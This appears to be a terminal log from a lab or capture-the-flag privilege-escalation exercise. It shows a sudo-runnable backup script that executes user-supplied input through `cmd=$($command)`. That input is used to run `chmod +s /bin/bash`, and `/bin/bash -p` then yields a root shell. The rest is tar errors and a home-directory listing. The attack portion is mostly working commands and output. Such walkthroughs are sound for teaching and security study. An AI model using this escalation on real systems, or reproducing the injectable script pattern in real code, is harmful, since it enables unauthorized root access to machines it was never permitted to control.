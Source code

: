 ```

echo
echo "Backup finished"

cmd=$($command)
echo $cmd
alex@ubuntu:~$ nano /etc/mp3backups/backup.sh
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"
/home/alex/Music/image12.mp3
/home/alex/Music/image7.mp3
/home/alex/Music/image1.mp3
/home/alex/Music/image10.mp3
/home/alex/Music/image5.mp3
/home/alex/Music/image4.mp3
/home/alex/Music/image3.mp3
/home/alex/Music/image6.mp3
/home/alex/Music/image8.mp3
/home/alex/Music/image9.mp3
/home/alex/Music/image11.mp3
/home/alex/Music/image2.mp3
find: \u2018/run/user/108/gvfs\u2019: Permission denied
Backing up /home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3 to /etc/mp3backups//ubuntu-scheduled.tgz

tar: Removing leading `/' from member names
tar: /home/alex/Music/song1.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song2.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song3.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song4.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song5.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song6.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song7.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song8.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song9.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song10.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song11.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song12.mp3: Cannot stat: No such file or directory
tar: Exiting with failure status due to previous errors

Backup finished

alex@ubuntu:~$ /bin/bash -p
bash-4.3# whoami
root
bash-4.3# ls -la
total 112
drwx------ 18 alex alex 4096 Jul 31 22:32 .
drwxr-xr-x 3 root root 4096 Dec 30 2020 ..
-rw------- 1 alex alex 1145 Dec 31 2020 .bash_history
-rw-r--r-- 1 alex alex 220 Dec 30 2020 .bash_logout
-rw-r--r-- 1 alex alex 3771 Dec 30 2020 .bashrc
drwx------ 13 alex alex 4096 Jul 31 22:26 .cache
drwx------ 3 alex alex 4096 Dec 30 2020 .compiz
drwx------ 15 alex alex 4096 Dec 30 2020 .config
drwxr-xr-x 2 alex alex 4096 Dec 30 2020 Desktop
-rw-r--r-- 1 alex alex 25 Dec 30 2020 .dmrc
drwxr-xr-x 2 alex alex 4096 Dec 30 2020 Documents
drwxr-xr-x 2 alex alex 4096 Dec 31 2020 Downloads
drwx------ 2 alex alex 4096 Dec 30 2020 .gconf
drwx------ 3 alex alex 4096 Dec 31 2020 .gnupg
-rw------- 1 alex alex 1590 Dec 31 2020 .ICEauthority
```